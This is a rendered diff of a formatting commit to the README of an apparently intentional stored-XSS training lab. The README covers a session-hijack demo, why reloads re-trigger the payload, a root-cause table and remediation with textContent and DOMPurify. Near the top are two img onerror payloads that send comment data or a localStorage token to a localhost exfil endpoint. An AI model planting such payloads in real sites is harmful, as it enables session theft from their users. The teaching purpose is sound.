

Before and after one commit to nayabnoorsmn/xss-lab, a Markdown page: README.md, the part around one of its changes. Shown at 83% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -263,7 +263,7 @@ To make the impact concrete, you can simulate a full session-hijack flow:
 <img src=x onerror="fetch('/api/comments').then(r=>r.text()).then(t=>fetch('http://localhost:4000/exfil?d='+encodeURIComponent(t)))">
 ```
 
-**Example payload** — exfiltrate localStorage (if the app stored a token there):
+**Example payload** — exfiltrate `localStorage` (if the app stored a token there):
 
 ```
 <img src=x onerror="fetch('http://localhost:4000/exfil?d='+encodeURIComponent(localStorage.getItem('token')||'none'))">
@@ -272,10 +272,10 @@ To make the impact concrete, you can simulate a full session-hijack flow:
 
 ---
 
-🔁 Why Reload Triggers the Payload
+## 🔁 Why Reload Triggers the Payload
 A common misconception is that the browser "re-executes" the stored script. In reality, on every page load the script is re-injected into a fresh document:
 
-text
+```
 Browser loads page
         │
         ▼
@@ -295,33 +295,46 @@ Browser parses the new HTML string
         │
         ▼
 <img onerror> fires → payload executes
-Every reload → new fetch → new innerHTML assignment → new parse → new execution. This is why the payload is persistent from the attacker's perspective: they don't need to re-deliver it.
+```
+Every reload → new `fetch` → new `innerHTML` assignment → new parse → new execution. This is why the payload is persistent from the attacker's perspective: they don't need to re-deliver it.
 
-🔍 Root Cause Analysis
-Stage	What happens	Why it's exploitable
-Input	POST /api/comments accepts message verbatim	No validation, no encoding, no length limit
-Storage	The raw string is kept in memory	Malicious HTML/JS is preserved exactly
-Output	commentsEl.innerHTML = ...c.message...	Browser parses it as HTML; inline event handlers execute
-Execution context	Runs as the localhost:3000 origin	Full access to DOM, cookies (non-HttpOnly), localStorage, and same-origin APIs
-Trigger	load() runs on every visit	Payload re-injected into every fresh document
-The bug is not the <script> tag specifically — it's that untrusted data is treated as HTML. Any construct that the HTML parser can execute (event handlers, javascript: URIs, <svg onload>, etc.) is fair game.
+---
 
-🛡️ How to Fix It (Remediation)
+## 🔍 Root Cause Analysis
+
+| Stage |	What happens | Why it's exploitable |
+|---|---|---|
+| **Input** |	`POST /api/comments` accepts `message` verbatim | No validation, no encoding, no length limit |
+| **Storage** |	The raw string is kept in memory | Malicious HTML/JS is preserved exactly |
+| **Output** | `commentsEl.innerHTML = ...c.message...` |	Browser parses it as HTML; inline event handlers execute |
+| **Execution context** |	Runs as the `localhost:3000` origin |	Full access to DOM, cookies (non-HttpOnly), `localStorage`, and same-origin APIs |
+| **Trigger** |	`load()` runs on every visit |	Payload re-injected into every fresh document |
+
+The bug is not the `<script>` tag specifically — it's that untrusted data is treated as HTML. Any construct that the HTML parser can execute (event handlers, `javascript:` URIs, `<svg onload>`, etc.) is fair game.
+
+---
+
+## 🛡️ How to Fix It (Remediation)
+
 This lab intentionally omits every one of these. In a real application, apply all of them:
 
-1. Encode on output — never use innerHTML for untrusted data
-Vulnerable:
+### 1. Encode on output — never use `innerHTML` for untrusted data
+**Vulnerable:**
 
-javascript
+```
 commentsEl.innerHTML = `<div>${c.message}</div>`;
+```
+
 Safe:
 
-javascript
+```
 const div = document.createElement('div');
 div.textContent = c.message;
 commentsEl.appendChild(div);
+```
+
 If you must render HTML, sanitize it first with DOMPurify:
 
-javascript
+```
 import DOMPurify from 'dompurify';
 commentsEl.innerHTML = DOMPurify.sanitize(c.message);
````
Also changed, not shown: other parts of README.md (+59 -53 lines).
